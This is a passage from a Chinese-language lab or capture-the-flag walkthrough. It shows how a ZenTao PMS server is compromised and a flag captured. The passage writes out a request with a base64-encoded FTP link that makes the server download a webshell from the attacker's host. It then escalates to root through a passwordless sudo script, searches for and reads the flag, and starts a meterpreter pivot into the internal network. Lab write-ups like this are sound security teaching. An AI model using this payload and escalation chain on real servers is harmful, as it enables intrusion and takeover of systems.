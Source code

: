 ![img](https://p1.ssl.qhimg.com/t0122ae7126a0e8852e.png)

如上图已经成功开启服务。
FTP webshell地址为`ftp://192.168.174.128/shell.php` 然后将其地址进行base64加密。
然后构建payload并进行访问：
`http://192.168.174.132/zentaopms/www/index.php?m=client&f=download&version=1&link=ZnRwOi8vMTkyLjE2OC4xNzQuMTI4L3NoZWxsLnBocA==`
显示保存成功。

![img](https://p0.ssl.qhimg.com/t01449c4d65bb24825d.png)

Webshell连接地址：`http://192.168.174.132/data/client/1/shell.php`

![img](https://p4.ssl.qhimg.com/t019a0f091dd238b992.png)

连接成功！
查看shell权限为www-data

![img](https://p5.ssl.qhimg.com/t01fe0dfb0e433afefd.png)

常规操作`sudo -l`看一下

![img](https://p4.ssl.qhimg.com/t01e08f59617a428674.png)

可以看到可以无需密码以任何权限执行/var/www/html/zentaopms/www/tips.sh文件。
我们来尝试在文件中写入`whoami`并执行试一下。发现没有这个文件？不要紧，我们可以自己创建一个然后`chmod +x /var/www/html/zentaopms/www/tips.sh`赋予执行权限。

![img](https://p0.ssl.qhimg.com/t0110af710af49ae813.png)

然后我们可以全局搜索一下flag相关的文件名。
在文件中写入`find / -name "*flag*"`并执行。

![img](https://p0.ssl.qhimg.com/t014cf57df8d09577f6.png)

然后查看flag文件，在文件中写入cat /root/flag1.txt并执行。

![img](https://p1.ssl.qhimg.com/t014e6beb50c6fe837d.png)

得到第一个靶标！

 

## 内网渗透OA系统

### 信息收集

为了方便测试我们弹一个meterpreter，生成方法百度即可。**P.S.这里建议使用上述的提权方式弹一个root权限的shell。**

![img](https://p3.ssl.qhimg.com/t0113ccfc2b685c0b46.png)

查看到该靶机存在其他内网段，添加路由。

![img](https://p0.ssl.qhimg.com/t013f9f441cac9993f3.png)
